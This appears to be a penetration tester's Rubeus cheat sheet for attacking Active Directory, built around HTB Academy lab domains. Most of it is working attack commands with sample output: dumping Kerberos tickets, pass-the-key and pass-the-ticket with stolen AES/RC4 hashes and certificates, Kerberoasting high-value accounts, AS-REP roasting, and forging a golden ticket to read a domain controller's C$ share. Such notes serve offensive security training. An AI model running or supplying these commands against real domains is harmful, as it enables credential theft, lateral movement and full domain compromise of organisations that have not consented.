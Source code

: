 ```yaml
---
tags:
  - windows
  - kerberoasting
  - PtT
  - PtH
  - asrep-roasting
---
```

# Modules
## Dump Kerberos Ticket Data
```cmd-session
> Rubeus.exe dump /nowrap
```
`dump` to print the ticket in base64 (easy copy-paste)

# Pass the Key / OverPass the Hash
## Using AES Key
Use the module `asktgt` with username, domain, and hash (`/rc4`, `/aes128`, `/aes256`, or `/des`). The hash can be collected using [[Mimikatz]] `sekurlsa::ekeys`.
```cmd-session
> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:<AES-KEY> /nowrap
```
## Using RC4 Hash
Instead of retrieving the ticket in base64, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.
```cmd-session
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:<RC4-HASH> /ptt
```
## Using PKI Certificate
```powershell-session
> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Building AS-REQ (w/ PKINIT preauth) for: 'INLANEFREIGHT.LOCAL\ACADEMY-EA-DC01$'
[*] Using domain controller: 172.16.5.5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
	doIGUDCCBkygAwIBBaEDAgEWooIFSDCCBURhggVAMIIFPKADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
	QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggTyMIIE7qADAgEXoQMC
    AQKiggTgBIIE3IHVcI8Q7gEgvqZmbo2BFOclIQogbXr++rtdBdgL5MPlU2V15kXxx4vZaBRzBv6/e3MC
    ... SNIP ... 
    GA8yMDIyMDMzMDIyNTAyNVqmERgPMjAyMjAzMzEwODUwMjVapxEYDzIwMjIwNDA2MjI1MDI1WqgVGxNJ
    TkxBTkVGUkVJR0hULkxPQ0FMqSgwJqADAgECoR8wHRsGa3JidGd0GxNJTkxBTkVGUkVJR0hULkxPQ0FM
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/INLANEFREIGHT.LOCAL
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  ACADEMY-EA-DC01$
  UserRealm                :  INLANEFREIGHT.LOCAL
  StartTime                :  3/30/2022 3:50:25 PM
  EndTime                  :  3/31/2022 1:50:25 AM
  RenewTill                :  4/6/2022 3:50:25 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  d/AohN1w1ZZXsks8cCUlbg==
  ASREP (key)              :  2A621F62C32241F38FA68826E95521DD
```
This ticket can be confirmed in memory using [[klist]]
## Alternate Methods
1. Using harvested keys in `.kirbi`
We can import the ticket (created using Mimikatz [[Mimikatz#Export Tickets|Export Tickets]] module) into the current session.
```cmd-session
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
2. Pass base64 ticket
	- Convert `.kirbi` to Base64 Format
```powershell-session
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
Now we can pass this base64 instead of filename
```cmd-session
> Rubeus.exe ptt /ticket:<BASE64-TICKET>
```
>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
The option `createnetonly` creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)) which is hidden by default, but can be displayed using `/show` (equivalent of `runas /netonly`). This prevents the erasure of existing TGTs for the current logon session.
```cmd-session
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
This should open a new CMD window from where we can execute Rubeus to request a new TGT, using `ptt`, to import the ticket into the current session and connect to the DC using PS Remoting.
```powershell
PS > Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
> powershell
PS > Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
```
# Kerberoasting
## Gather Stats
```powershell
PS > .\Rubeus.exe kerberoast /stats
```
## Retrieve TGS Tickets
- Request tickets of accounts with `admincount=1` (high value targets):
```powershell
PS > .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
- Request ticket for a specific user:
```powershell
PS > .\Rubeus.exe kerberoast /user:<USER> /nowrap
```
## Usefule Flags
- `/tgtdeleg`: Retrieve only `RC4` encrypted ticket (Does not work on Server 2019+)
# Retrieve AS-REP (ASREPRoasting)
```powershell
PS > .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```
# Golden Ticket
The same steps can be followed like in [[Mimikatz#Golden Ticket|Mimikatz]] to obtain required information.
```powershell
PS >  .\Rubeus.exe golden /rc4:<NT-HASH> /domain:<CHILD-DOMAIN-FQDN> /sid:<CHILD-DOMAIN-SID>  /sids:<ROOT-DOMAIN-ENTERPRISE-ADMINS-GROUP-SID> /user:hacker /ptt
```
The ticket can be confirmed with [[klist]]. And if the attack is successful, we should be able to read DC's whole C drive!
```powershell
PS > ls \\academy-ea-dc01.inlanefreight.local\c$
```